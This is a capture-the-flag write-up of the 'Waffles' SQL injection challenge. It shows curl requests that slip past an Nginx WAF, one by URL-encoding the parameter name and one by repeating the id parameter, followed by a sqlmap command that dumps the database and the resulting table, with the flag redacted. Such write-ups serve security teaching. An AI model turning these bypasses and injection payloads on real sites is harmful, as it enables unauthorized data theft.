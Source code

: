# Waffles

This was an SQL injection challenge. The twist is that there is an Nginx WAF in front of the vulnerable service.
The only url parameter to play with was `id`, but try to put something evil into that and Nginx immediately stops it:

```shell
> curl "https://waffles.secchallenge.crysys.hu/?id=1%20or%201"
<html>
<head><title>406 Not Acceptable</title></head>
<body bgcolor="white">
<center><h1>406 Not Acceptable</h1></center>
<hr><center>nginx/1.14.0 (Ubuntu)</center>
</body>
</html>
```

There are multiple ways to circumvent this. The one I found was escaping the `id` parameter like this: 

```https://waffles.secchallenge.crysys.hu/?%69d=1```


Then with:
```shell
> curl "https://waffles.secchallenge.crysys.hu/?%69d=1'%20or%20'1'='1"
...
 <div class="row centered">
        <div class="input-group input-group-lg">
            <div class="alert alert-primary" role="alert">
                Freshly cut strawberries, cookie butter, Nutella, and our house made whipped cream on top of our golden Liege waffle.
            </div>
        </div>
    </div></div>
...
```
We got some `Freshly cut strawberries`. 

We can also try to pass in two `id` parameters instead of just one. Nginx validates the first one, but the service uses the second one. It's just like this: web servers and services implement ambigous parameters differently.

```shell
> curl "https://waffles.secchallenge.crysys.hu/?id=1&id=1'%20or%20'1'='1"
...
 <div class="row centered">
        <div class="input-group input-group-lg">
            <div class="alert alert-primary" role="alert">
                Freshly cut strawberries, cookie butter, Nutella, and our house made whipped cream on top of our golden Liege waffle.
            </div>
        </div>
    </div></div>
...
```

Now it's just a standard SQL injection challenge, solvable by hand or with tools like `sqlmap`.

```shell
> sqlmap -u 'https://waffles.secchallenge.crysys.hu/?id=1&id=1' -p 'id' -D REDACTED --dump-all
```

| id | order_id     | description                                                                                                                                 |
|----|--------------|---------------------------------------------------------------------------------------------------------------------------------------------|
| 1  | 12234        | Freshly cut strawberries, cookie butter, Nutella, and our house made whipped cream on top of our golden Liege waffle.                       |
| 2  | 235325       | Two deep fried crispy tenders with bacon crumble and maple syrup on top of our golden Liege waffle.                                         |
| 3  | 598412       | Tangy lemon curd, fresh blueberries, and our housemade whipped cream on top of our golden Liege waffle.                                     |
| 4  | REDACTED     | cd22{REDACTED}                                                                                                                              |
| 5  | 1337         | Fire toasted mini marshmallows, chocolate syrup, and cookie butter (aka liquid graham crackers) on top of our golden Liege waffle.          |
| 6  | 1682934      | Freshly sliced bananas, peanut butter, honey, and bacon crumble on top of our golden Liege waffle.                                          |
| 7  | 123172       | Waffle sandwich stuffed with blackforest ham, smoked turkey, melted white american cheese, and berry jam inside of our golden Liege waffle. |







